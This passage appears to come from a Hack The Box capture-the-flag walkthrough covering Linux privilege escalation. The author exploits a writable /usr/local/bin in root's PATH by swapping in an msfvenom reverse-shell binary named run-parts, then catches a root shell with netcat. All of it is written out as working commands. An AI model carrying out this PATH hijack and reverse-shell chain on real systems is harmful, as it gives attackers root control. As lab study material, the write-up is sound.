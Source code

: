 And also that 

`PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games`

This is in the PATH. So if I have write access here, This will be the default place the system will run commands.

So I have to find something that is ran without the full path, as it will default to the /usr/local/bin path.

I download pspy32 and look for recurring processes and find logger, mv, run-parts after running it for a while.

logger seems to be connected to mysql, mv is moving /etc&resolv.conf.dhclient

and run-parts is also connected to dhclient.


`02:11:32 CMD: UID=0    PID=16114  | run-parts --list /etc/dhcp/dhclient-enter-hooks.d`

`02:16:24 CMD: UID=0    PID=16144  | run-parts --list /etc/dhcp/dhclient-exit-hooks.d` 


It seems like this is being ran approximately every 5 minutes. But in addition we have the cleanup script being ran every minute.

So I quickly create a reverse shell:

```
kali@kali:~/htb/Writeup$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.60 LPORT=1337 -f elf -o run-parts
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: run-parts
kali@kali:~/htb/Writeup$ 
```

And prepare to send it over to the machine with scp:


```
kali@kali:~/htb/Writeup$ sudo scp run-parts jkr@10.129.1.195:/usr/local/bin/run-parts
The authenticity of host '10.129.1.195 (10.129.1.195)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.1.195' (ECDSA) to the list of known hosts.
jkr@10.129.1.195's password: 
run-parts                                                                                                                 100%  194     7.3KB/s   00:00    
kali@kali:~/htb/Writeup$ sudo scp run-parts jkr@10.129.1.195:/usr/local/bin/run-parts
jkr@10.129.1.195's password: 
```

And I noticed on my pspy monitor that run-parts is called when an ssh connection is made as well. 

```
kali@kali:~/htb/Writeup$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.195 43980
whoami
root
```
